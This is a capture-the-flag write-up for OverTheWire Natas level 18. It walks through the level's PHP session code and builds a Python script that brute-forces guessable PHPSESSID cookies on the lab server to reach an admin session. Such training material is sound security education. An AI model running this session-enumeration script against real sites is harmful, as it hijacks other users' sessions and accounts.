

# OverTheWire - Natas - Level 18

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas18` password in the previous challenge, it can be
used to log into http://natas18.natas.labs.overthewire.org:



## Initial Analysis

This challenge page has text that says:

> Please login with your admin account to retrieve credentials for natas19.

There's a form with a pair of Username and Password input boxes, plus a Login
button.

There is also a `View sourcecode` link that seems like a hint.

## Approach Strategy

1. Click the `View sourcecode` link
1. Figure it out from there!

## Step-by-Step Solution

Clicking the `View sourcecode` link shows the source code for the web page. The
passwords are censored, but the PHP code for the page is shown. It's a lot of
squirrelly code and too big for a useful screenshot. However, it can be broken
down piece by piece and simplified to make it understandable:

### `isValidAdminLogin`

```php
function isValidAdminLogin() {
  if ($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
    //return 1;
  }

  return 0;
}
```

This function looks like at one time it checked the username, but that return
value has been commented out. So this function now always returns 0, so it can
be rewritten as:

```php
function isValidAdminLogin() {
  return 0;
}
```

### `isValidID`

```php
// Check that the given "id" parameter is a number.
function isValidID($id) {
  return is_numeric($id);
}
```

### `createID`

```php
// Create a numeric ID value between 1 and maxid (640).
function createID($user) {
  global $maxid;

  return rand(1, $maxid);
}
```

### `my_session_start`

This is when the code starts to get complicated and needs some explanation.

```php
// Returns true if there is a numeric PHPSESSID cookie and the session starts
function my_session_start() {
  // If there is PHPSESSID cookie and it's a valid number then...
  if (array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    // Start a PHP session, which should always succeed.
    if (!session_start()) {
      debug("Session start failed");
      return false;
    } else {
      debug("Session start ok");
      // If the session has no "admin" key, create one with a value of 0.
      if (!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
      }

      return true;
    }
  }

  return false;
}
```

Websites use "sessions" to keep track of user data on the server. This means
that the user cannot alter the data since it's not stored in the browser. So
when the `admin` session key is set to `0`, there is no way to change it - it is
hidden away on the server.

### `print_credentials`

```php
// Straightforward: only if the "admin" session variable is set to 1 is the
// password for the next level displayed.
function print_credentials() {
  if ($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
  } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
  }
}
```

### Page Code

Finally comes the PHP code on the page that uses the above functions.

```php
// Use a variable that indicates if the login form is displayed or not. This is
// just so the form is displayed before credentials are entered, and hidden
// afterwards.
$showform = true;

// If there is a numeric PHPSESSID cookie and the session starts...
if (my_session_start()) {
  // Print the next password if admin, or an info message if not.
  print_credentials();
  $showform = false;
} else {
  // If the user is submitting a username and password, then...
  if (array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    // Set the session id to a value from 1 to 640
    session_id(createID($_REQUEST["username"]));
    session_start();

    // Set the admin session variable to 0
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
  }
}
```

Wow, that's a lot of code to read through and untangle. It's not very readable,
which is probably part of the challenge. To sum it up, though:

- When the user first enters any username and password, the page will:
  - Set the `PHPSESSID` browser cookie with a value from 1 to 640
  - Set the `admin` server-side session variable with a value of 0
- If at any time the `admin` session variable is `1` the password is displayed
- There is no way in this code to set the `admin` session variable to `1`

It's this last point that is the key to this challenge: the code is solid (if
messy) so there aren't any logic flaws in the code that can be exploited.

## The Session ID

If the `admin` session variable can't be manipulated, what is in control of the
attacker? The `PHPSESSID` browser cookie is just a small random number, in the
range of 1 through 640. By changing the `PHPSESSID` to another value, it is the
same as logging in as the person who has that session. In other words, it is
possible to use the session of other users, and with any luck it's possible to
find a user with `admin` set to `1`.

The `PHPSESSID` could be manipulated through the Developer Tools in the browser,
but 640 session IDs is a lot to check manually. This is something that needs to
be automated: and this can be a very big leap for non-developers.

### Automate the Process

The first step is to decide what technology to use. This could be done with a
shell script and the `curl` command - it would be fairly straightforward with
a `grep` command to look at the responses. However, in previous challenges some
Python scripts were written, and those scripts can be re-used here.

It's best to figure out the steps needed using "pseudocode":

1. Get the `natas18` username and password that are needed to call the web
   server
2. Loop over each of the 640 PHPSESSID cookies
3. Call the web server with an HTTP request duplicating what happens when the
   page is displayed
4. Check the response from the web server. If it contains "You are logged in as
   a regular user" then continue to the next PHPSESSID. Otherwise print the
   response and stop (this catches both the admin output as well as errors).

#### Step 1: Credentials

Although the password could be stored in the code, it's poor form to publish
passwords for challenges, so for this demonstration the password must be
entered by the user. In Python this looks like:

```python
import getpass

password = getpass.getpass(prompt='Enter password for natas18: ')
```

#### Step 2: Loop over the PHPSESSID values

```python
for id in range(1, 640):
```

#### Step 3: Web Server Request

```python
import requests

print(f'Trying PHPSESSID={ id }')
response = requests.get('http://natas18.natas.labs.overthewire.org/index.php', auth=("natas18", password), cookies={ "PHPSESSID": id })
```

#### Step 4: Response Handling

```python
if 'You are logged in as a regular user' not in response.text:
    print(response.text)
    break
```

And that's it! Bringing it all together:

```python
import getpass
import requests

#### Step 1: Credentials
password = getpass.getpass(prompt='Enter password for natas18: ')

#### Step 2: Loop over the PHPSESSID values
for id in range(1, 640):
    #### Step 3: Web Server Request
    print(f'Trying PHPSESSID={ id }')
    response = requests.get('http://natas18.natas.labs.overthewire.org/index.php', auth=("natas18", password), cookies={ "PHPSESSID": str(id) })

    #### Step 4: Response Handling
    if 'You are logged in as a regular user' not in response.text:
        print(response.text)
        break
```

Running this command, and waiting for many HTTP requests, produces the
`natas19` password.

## Key Takeaways

- It's important to never trust user-controlled data
- It's secure to store session data on the server, but the session ID must not
  be guessable

## Beyond the Challenge

It's always a good idea to think about other solutions.

The Python code above will work, but there is a lot of room for improvement. It
is fine for a "one off" challenge, but refactoring the code would make it better
and perhaps more re-usable. As an exercise the file
[solution.py](files/level_18/solution.py):

- sets up constants for things like the URL and password characters
- breaks the code into small single-purpose functions
- adds error handling and logging
